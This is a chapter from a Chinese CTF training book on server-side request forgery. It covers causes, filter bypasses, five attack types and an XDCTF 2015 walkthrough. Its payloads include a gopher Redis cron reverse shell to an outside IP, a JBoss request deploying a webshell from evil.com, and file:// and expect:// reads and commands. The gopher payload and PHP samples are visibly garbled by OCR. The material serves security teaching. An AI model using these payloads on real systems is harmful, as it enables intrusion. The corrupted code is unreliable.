

???+ abstract "本章摘要"
    本章讲解服务端请求伪造（SSRF）漏洞：从其「服务端未对目标地址做有效过滤与限制」的形成原因讲起，介绍限制特定域名、禁止内网 IP 这两类常见防护的常规绕过方法（@ 符绕过、IP 进制与省略写法、可控域名 A 记录），随后阐述五类危害与利用技巧（端口扫描、攻击内网漏洞服务、指纹识别、文件读取、命令执行），最后以 XDCTF 2015 Web 300 为例完整演示 SSRF 的实战利用链。
## 章节导航

上一篇：[第3章 跨站脚本攻击](第3章 跨站脚本攻击.md)
下一篇：[第5章 利用特性进行攻击](第5章 利用特性进行攻击.md)
回到目录：[00-目录](00-目录.md)

## 第4章 服务端请求伪造

很多Web应用都提供了从其他的服务器上获取数据的功能，根据用户指定的URL，Web应用可以获取图片、下载文件、读取文件内容等。这种功能如果被恶意使用，将导致存在缺陷的Web应用被作为代理通道去攻击本地或远程服务器。==这种形式的攻击被称为服务端请求伪造攻击（Server-side Request Forgery，SSRF）==。

### 4.1 如何形成

SSRF形成的原因大都是由于服务端提供了从其他服务器或应用中获取数据的功能，但没有对目标地址做出有效的过滤与限制造成的。

比如，一个正常的Web应用本应该从指定URL获取网页文本内容或加载指定地址的图片，而攻击者利用漏洞伪造服务器端发起请求，从而突破了客户端获取不到数据的限制，如内网资源、服务器本地资源等。

为了方便读者理解，下面举例说明，请考虑如下代码：

```php
<?php
$url = $GET['url');
echo file_get_contents($url);
?>
```

这段代码使用file_get_contents函数从用户指定的URL获取图片并展示给用户。此时如果攻击者提交如下Payload，就可以获取到内网主机HTTP服务8000端口的开放情况（http://example.com/ssrf.php?url=http://192.168.252.1:8000/）。

图4-1所示的就是一个SSRF攻击的示例。

{ width="75%" }

*图4-1 SSRF攻击示例*

???+ tip "本节要点"
    1. SSRF 的本质是服务端被「当代理通道」向本地或远程服务器发起了它本不应发起的请求，突破客户端访问不到内网/本地资源的限制；
    2. 成因是服务端提供了「从其他服务器获取数据」的功能，却未对目标地址做有效的过滤与限制；
    3. 示例代码用 `file_get_contents($url)` 直接抓取用户可控 URL 并回显，是无任何过滤的典型反例。
### 4.2 防护绕过

很多开发者使用正则表达式的方式对SSRF中的请求地址进行过滤，具体表现如下。

- 限制请求特定域名。
- 禁止请求内网IP。

==然而，这两种过滤都很容易被绕过==，可用的方法具体如下：

1）使用http://example.com@evil.com这种格式来绕过正则。

2）IP地址转为进制（八进制、十进制、十六进制）及IP地址省略写法，举例说明如下。

- 0177.00.00.01（八进制）
- 2130706433（十进制）
- 0x7f.0x0.0x0.0x1（十六进制）
- 127.1（IP地址省略写法）

==以上4种写法均可表示地址127.0.0.1==。

3）配置域名。如果我们手中有可控域名，则可将域名A记录指向欲请求的IP进行绕过操作：

???+ tip "本节要点"
    1. 常见防护仅两类：限制特定域名、禁止内网 IP，基本靠正则过滤，都很容易被绕过；
    2. 三条绕过思路：`http://example.com@evil.com` 的 @ 符绕过、IP 进制（八/十/十六进制）与省略写法、可控域名 A 记录指向内网；
    3. `0177.00.00.01`、`2130706433`、`0x7f.0x0.0x0.0x1`、`127.1` 这四种写法都表示 `127.0.0.1`。
### 4.3 危害与利用技巧

利用SSRF漏洞可以进行的攻击类型有很多，这取决于服务端允许的协议类型，包括但不限于下文要讲的这5种类型。

### 1. 端口扫描

```text
http://example.com/ssrf.php?url=http://192.168.252.130:21/
http://example.com/ssrf.php?url=http://192.168.252.130:22/
http://example.com/ssrf.php?url=http://192.168.252.130:80/
http://example.com/ssrf.php?url=http://192.168.252.130:443/
http://example.com/ssrf.php?url=http://192.168.252.130:3306/
...snip...
```

可通过应用响应时间、返回的错误信息、返回的服务Banner来判断端口是否开放，如图4-2所示。

{ width="75%" }

*图4-2 SSRF探测内网服务端口示例*

图4-2中，左侧为访问22端口并从错误信息中返回Banner，右侧为访问80端口被拒绝（未开放）。当PHP未开启显错模式时，可通过响应时间来判断端口是否开放。

### 2. 攻击内网或本地存在漏洞的服务

利用SSRF漏洞可对内网存在漏洞的服务进行攻击（如缓冲区溢出等），如图4-3所示。

{ width="75%" }

*图4-3 SSRF攻击内网服务示例*

如对HTTP发送的数据是否能被其他服务协议接收存在疑问，可参考Freebuf上的文章：《跨协议通信技术利用》 $ ^{[1]} $。

另外，值得注意的是Gopher协议，其说明如下。

Gopher协议是HTTP出现之前，在Internet上常见且常用的一种协议。当然现在Gopher协议已经慢慢淡出历史。Gopher协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议既可以攻击内网的FTP、Telnet、Redis、Memcache，也可以进行GET、POST请求。这无疑极大地拓宽了SSRF的攻击面。

——《利用Gopher协议拓展攻击面》－长亭科技

下面的Payload展示了如何利用Gopher协议来攻击内网中的Redis主机：

```text
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a&*/1* * * * bash -i >& /dev/tcp/172.19.23.228/2333
0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0a$3%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0a$1%0d%0a$4%0d%0a$1%0d%0a$4%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4%0d%0a$4
```

[OCR存疑：此 Gopher payload 极长且含大量重复片段（如 `$4%0d%0a` 连续重复），疑 OCR 存在重复/截断，已逐字保留原文。]

### 3. 对内网Web应用进行指纹识别及攻击其中存在漏洞的应用

大多数Web应用都有一些独特的文件和目录，通过这些文件可以识别出应用的类型，甚至详细的版本。基于此特点可利用SSRF漏洞对内网Web应用进行指纹识别，如下Payload可以识别主机是否安装了WordPress:

得到应用指纹后，便能有针对性地对其存在的漏洞进行利用。如下Payload展示了如何利用SSRF漏洞攻击内网的JBoss应用：

```text
http://example.com/ssrf.php?url=http%3A%2F%2F127.0.0.1%3A8080%2Fjmx-console%2FHtmlAdaptor%3Faction%3DinvokeOp%26name%3Djboss.system%253Aservice%253DMainDeployer%26methodIndex%3D3%26arg0%3Dhttp%253A%252F%252Fevil.com%252Fwebshell.war
```

### 4. 文件读取

如果攻击者指定了file协议，则可通过file协议来读取服务器上的文件内容，如：

```text
http://example.com/ssrf.php?url=file://etc/passwd
```

执行结果如图4-4所示。

### 5. 命令执行

PHP环境下如果安装了expect扩展，还可以通过expect协议执行系统命令，如：

```text
http://example.com/ssrf.php?url=expect://id
```

{ width="76%" }

*图4-4 SSRF读取文件示例*

[1] http://www.freebuf.com/articles/web/19622.html.

???+ tip "本节要点"
    1. SSRF 危害取决于服务端放行的协议，本章归纳五类：端口扫描、攻击内网漏洞服务、指纹识别、文件读取、命令执行；
    2. 端口扫描靠响应时间 / 错误信息 / 服务 Banner 判断开放，PHP 关闭显错时只能靠响应时间；
    3. `gopher://` 协议可攻击内网 FTP、Telnet、Redis、Memcache，也能发 GET/POST，极大拓宽攻击面；
    4. `file://` 读文件（如 `/etc/passwd`）、`expect://` 执行命令（需安装 expect 扩展）。
### 4.4 实例

XDCTF（LCTF）2015中Web 300就是一道与SSRF相关的题目。

首先，通过file协议读取源代码，具体如下：

```php
// file://index.php
<?php
if (isset($_GET['link》） {
    $link = $GET['link》；
    // disable sleep
    if (strpos(strtolower($link), 'sleep') ||
    strpos(strtolower($link), 'benchmark') {
        die('No sleep');
    }
    if (strpos($link, "http://") === 0) {
        // http
        $curlobj = curl_init($link);
        curl_setopt($curlobj, CURLOPT_HEADER, 0);
        curl_setopt($curlobj, CURLOPT_PROTOCOLS,
                     curl_setopt($curlobj, CURLOPT_CONNECTTIMEOUT,
                     curl_setopt($curlobj, CURLOPT_TIMEOUT, 5);
        $content = curl_exec($curlobj);
        curl_close($curlobj);
        echo $content;
    } else if (strpos($link, "file://") === 0) {
    // file
    echo file_get_contents(substr($link, 7));
}
else {
echo<<EOF
```

[OCR存疑：上述 PHP 源码中 `$GET['link']` 疑为 `$_GET['link']`，`strpos(...) === 0` 的括号配对数处疑 OCR 少识别，已逐字保留原文。]

继续读取系统敏感文件，/etc/hosts文件内容如下：

```text
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
```

可见，在hosts文件中本机IP还绑定了另外一个域名，由此可以推测这台服务器上一定还有其他的网站。

直接通过SSRF漏洞请求域名，发现与直接通过IP访问并没有区别，考虑出题人可能会将HTTP服务开在其他端口，因此利用SSRF漏洞对本机进行端口扫描。扫描后发现本机3389端口处于开放状态，带上域名访问发现是一个Discuz!7.2的论坛。

利用Discuz!7.2的faq. php中的SQL注入漏洞，读取数据库内容发现管理员admin的密码即为flag。

???+ tip "本节要点"
    1. 实例路径：`file://` 读源码 → 读 `/etc/hosts` 发现新绑定的域名 → SSRF 端口扫描发现 3389 → 访问出 Discuz! 7.2 论坛 → faq.php SQL 注入读库出 flag；
    2. hosts 中「IP 绑定另一个域名」是提示服务器上还有别的网站，是横向扩展信息的重要线索；
    3. 端口扫描确认 3389 开放后，带域名访问才定位到 Discuz! 论坛，说明「域名 + 端口」组合探测很有价值。
## 易错点

!!! warning "易错点"
    1. 端口扫描判定不能只靠错误信息：PHP 关闭显错后要靠响应时间判断端口是否开放。
    2. 防护只做「限制特定域名 / 禁止内网 IP」是不够的，@ 符、IP 进制/省略写法、可控域名 A 记录都能轻易绕过。
    3. `expect://` 命令执行依赖 PHP 安装 expect 扩展，不是所有环境都可用；`file://` 前缀只需 `file://`（示例里写成 `file://etc/passwd` 少了斜杠，按原文保留）。
    4. SSRF 攻击面随「服务端放行的协议」扩大，`gopher://` 是最值得关注的协议。
??? note "自测题"
    **基础**
    1. 什么是 SSRF？它和 CSRF 有什么区别？
    2. SSRF 形成的根本原因是什么？
    3. 常见的两类 SSRF 防护是什么？
    4. 说出四种表示 `127.0.0.1` 的 IP 写法。
    5. SSRF 的五类危害分别是什么？
    6. `gopher://` 协议在 SSRF 中有什么作用？
    
    **进阶**
    7. 端口扫描时，如果 PHP 关闭了显错模式，如何判断端口是否开放？
    8. 如何利用 SSRF 对内网 Web 应用做指纹识别？
    9. `file://` 与 `expect://` 协议分别能做什么？各自有什么前提？
    10. 复盘 4.4 实例：攻击者是如何一步步从 SSRF 拿到 flag 的？
    
    **参考答案**
    1. SSRF 是服务端请求伪造，服务端按攻击者构造的 URL 发起请求；CSRF 是跨站请求伪造，利用浏览器携带的已认证 Cookie 以用户身份发请求，两者发起请求的主体不同。
    2. 服务端提供了「从其他服务器获取数据」的功能，却未对目标地址做有效的过滤与限制。
    3. 限制请求特定域名、禁止请求内网 IP。
    4. `0177.00.00.01`（八进制）、`2130706433`（十进制）、`0x7f.0x0.0x0.0x1`（十六进制）、`127.1`（省略写法）。
    5. 端口扫描、攻击内网/本地存在漏洞的服务、对内网 Web 应用指纹识别及攻击、文件读取、命令执行。
    6. 可攻击内网 FTP、Telnet、Redis、Memcache，也能发 GET/POST 请求，极大拓宽攻击面。
    7. 通过响应时间来推断端口是否开放。
    8. 利用「大多数 Web 应用有独特文件和目录」的特点，请求特定文件/目录判断应用类型甚至版本（如识别 WordPress），再针对已知漏洞利用。
    9. `file://` 读取服务器文件内容（如 `/etc/passwd`）；`expect://` 执行系统命令，需 PHP 安装 expect 扩展。
    10. file 协议读 index.php 源码 → 读 /etc/hosts 发现新绑定域名 → SSRF 端口扫描发现 3389 开放 → 带域名访问确认 Discuz! 7.2 → 利用 faq.php SQL 注入读库，管理员 admin 的密码即 flag。
## 本章思维导图



## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- Freebuf《跨协议通信技术利用》：http://www.freebuf.com/articles/web/19622.html
- 长亭科技《利用Gopher协议拓展攻击面》。

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*